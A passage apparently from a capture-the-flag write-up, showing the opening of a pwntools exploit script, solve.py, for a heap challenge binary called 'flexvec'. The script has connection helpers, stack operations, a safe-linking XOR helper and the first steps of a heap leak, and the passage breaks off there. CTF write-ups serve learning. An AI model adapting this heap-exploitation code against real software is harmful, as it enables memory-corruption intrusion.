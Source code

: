Final exploit:

{% code title="solve.py" %}
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'flexvec_patched')
libc = exe.libc
context.terminal = 'tmux splitw -h'.split()


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote('127.0.0.1', 5000)
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
set max-visualize-chunk-size 0x500
# tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

def convert(val):
    return str(val).encode()

def push(val):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'value: ', val)

def pop():
    io.sendlineafter(b'> ', b'2')
    io.recvuntil(b'value: ')
    return io.recvline(keepends=False)

def shrink():
    io.sendlineafter(b'> ', b'3')

def xor(val):
    return (heapleak >> 12) ^ val

def replace(val):
    pop()
    push(val)
    pop()

heapleak = 0

io = start()

# ========= Heap Leak ============

shrink() # Immediately shrink to trigger the bug

push(convert(1))
push(convert(2))
push(convert(3))
```